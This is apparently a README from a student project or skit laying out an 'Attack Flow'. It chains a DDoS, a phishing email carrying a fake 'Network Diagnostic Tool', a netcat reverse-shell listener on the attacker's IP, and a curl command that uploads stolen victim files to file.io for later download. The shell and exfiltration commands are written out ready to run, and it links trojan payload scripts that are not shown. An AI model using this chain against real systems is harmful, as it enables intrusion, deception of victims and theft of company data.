 # Attack Flow

1. DDoS to a company’s computer to cause slow network traffic

2. Send a phishing email with the ‘Network Diagnostic Tool’ to offer a solution to the slow traffics

3. Gain access to the computer and navigate through the computer’s directories
    - On attacker's computer (Linux with netcat installed), run the following
    ```bash
    sudo nc -lnvp PORT_NUMBER -s ATTACKERS_IP_ADDRESS
    ```
    - If the victim is using Windows, run the following
    ```bash
    stty raw -echo; (stty size; cat) | nc -lnvp PORT_NUMBER -s ATTACKERS_IP_ADDRESS
    ```
    - Victim runs the 'Diagnostic Tool' executable file: [Linux](../Attack/victim_linux.py) or [Windows](../Attack/victim_windows.py)
    - Boom! Access granted!

4. Upload whatever files we want to file.io
    - Run the following curl script and take note of the key it returns
    ```bash
    curl -X 'POST' \
        'https://file.io/' \
        -H 'accept: application/json' \
        -H 'Content-Type: multipart/form-data' \
        -F 'file=@FILE_NAME_GOES_HERE' \
        -F 'expires=DATETIME_IN_ISO8601_FORMAT' \
        -F 'maxDownloads=1' \
        -F 'autoDelete=true'
    ```
    - Download all the files after the attack

5. Find another company as our target to attack

6. Perform the same attack again, turns out this company has very good security in place

7. End of our skit
